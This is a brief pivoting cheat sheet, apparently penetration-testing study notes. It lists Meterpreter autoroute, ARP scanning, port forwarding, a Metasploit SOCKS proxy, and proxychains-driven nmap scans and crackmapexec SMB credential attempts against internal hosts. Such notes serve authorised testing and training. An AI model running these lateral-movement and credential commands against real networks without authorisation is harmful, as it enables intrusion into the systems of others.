 # Pivoting (Meterpreter & Friends)

## Discover internal networks from foothold

run autoroute -s <TARGET1_SUBNET/CIDR>
run autoroute -p     # show routes
run arp_scanner -r <TARGET1_SUBNET/CIDR>
Port Forwarding (Meterpreter)

# Forward local <LOCAL_PORT> to <TARGET2_IP>:<TARGET2_PORT> via session
portfwd add -l <LOCAL_PORT> -p <TARGET2_PORT> -r <TARGET2_IP>
# Scan the forwarded service locally
db_nmap -sS -sV -p <LOCAL_PORT> localhost
SOCKS Proxy (Metasploit)

use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 9050
run
# /etc/proxychains4.conf: add "socks5 127.0.0.1 9050"
Proxychains examples

proxychains nmap -sT -Pn -p80,445 <INTERNAL_HOST>
proxychains crackmapexec smb <INTERNAL_HOST> -u <USER> -p <PW>
